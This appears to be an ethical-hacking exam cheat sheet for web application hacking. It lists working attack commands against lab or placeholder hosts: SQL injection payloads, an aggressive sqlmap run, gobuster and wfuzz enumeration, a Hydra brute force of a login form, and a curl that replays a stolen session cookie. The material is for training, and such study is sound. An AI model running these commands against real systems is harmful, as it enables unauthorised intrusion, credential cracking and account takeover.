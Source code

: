 **[Back to top](#top)**
___

## Module 14: Hacking Web Applications

SQL Injection (Manual)

```
' OR 1=1 -- -
```

SQLmap Automation

```
sqlmap -u "http://test.com?id=1" --risk=3 --level=5 --dbs
```

**[Back to top](#top)**
___

## Module 15: SQL Injection

### 1. Web App Reconnaissance (Exam Weight: 20%)

Directory Bruteforcing

```
gobuster dir -u http://10.10.10.10 -w /usr/share/wordlists/dirb/common.txt -x php,html,txt -t 50
```

Subdomain Enumeration

```
wfuzz -c -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.example.com" http://example.com
```

### Authentication Attacks (Guaranteed Exam Task)

Form Brute Force with Hydra

```
hydra -l admin -P rockyou.txt 10.10.10.10 http-post-form "/login.php:username=^USER^&password=^PASS^:Invalid credentials" -vV
```

Session Hijacking

```
curl -b "PHPSESSID=STOLEN_SESSION_ID" http://10.10.10.10/dashboard.php
```

### Injection Attacks (Exam MUST KNOW)

SQL Injection (Manual)

```
curl "http://10.10.10.10/products.php?id=1' OR 1=1 -- -"
```
